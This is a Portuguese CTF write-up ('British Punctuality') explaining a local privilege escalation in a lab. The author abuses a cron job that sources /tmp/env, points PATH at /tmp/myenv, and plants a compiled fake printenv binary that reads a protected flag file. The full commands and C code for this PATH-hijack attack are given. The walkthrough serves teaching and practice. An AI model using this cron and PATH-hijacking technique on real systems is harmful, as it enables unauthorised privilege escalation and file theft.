


# British Punctuality - CTF Extra

Verificamos que não temos permissão para abrir diretamente o ficheiro `flags/flag.txt`, mas o utilizador "flag_reader" tem:



Verificou-se também que `/tmp` é o único diretório onde o nosso utilizador tem permissões de escrita.
Neste diretório existe um ficheiro `last_log.txt` que é atualizado todos os minutos, com permissões de flag_reader, através do **cronscript** (/etc/cron.d/mycronscript) seguinte:

```note
* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```

Inicialmente, o conteúdo de `last_log ` é o seguinte:

```note
SHELL=/bin/sh
PWD=/home/flag_reader
LOGNAME=flag_reader
HOME=/home/flag_reader
SHLVL=2
PATH=/bin:/usr/bin:/usr/local/bin
_=/bin/printenv
I'm going to check if the flag exists!
File exists!!
TODO - Implement this in the near future!
```

Quando o **cronscript** é executado, este por sua vez executa `/home/flag_reader/my_script.sh`, e o output é guardado em `/tmp/last_log`. O conteúdo de `my_script.sh` é o seguinte:

```bash
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```

Podemos observar que, se o ficheiro `/tmp/env` existir, vai ser executado o seu conteúdo como um comando shell usando **xargs**. Posteriormente, serão impressas as variáveis de ambiente através do **printenv**. Assim, podemos alterar a variável de ambiente PATH (para apontar para o diretório com um printenv controlado por nós), colocando o seguinte texto no ficheiro `/tmp/env`:

```note
export PATH=/tmp/myenv/
```

Criando o diretório `/tmp/myenv/`, podemos criar dentro dele um binário printenv que execute um código controlado por nós:

```bash
$ mkdir myenv
$ cd myenv
$ touch printenv.c
```

Este ficheiro c terá o código que mostra a flag:

```c
#include <stdlib.h>
#include <string.h>
int main() {
    char command[25]="cat ../../flags/flag.txt"; 
    system(command); 
    return 0;
}
```

Este código é colocado em printenv.c linha a linha da seguinte forma:

```bash
$ echo "linha" >> printenv.c
```

No final compilamos o código:

```bash
$ gcc -Wall -o printenv printenv.c
```

No entanto, como alteramos a variável de ambiente PATH, o programa não vai encontrar o binário `cat` no novo diretório, pelo que temos de o copiar para lá: 

```
$ cp /bin/cat /tmp/myenv
```

Finalmente, esperamos uma nova execução de `my_script.sh` através do **cronscript** e verificou-se que o `last_log` continha a flag tal como previsto:


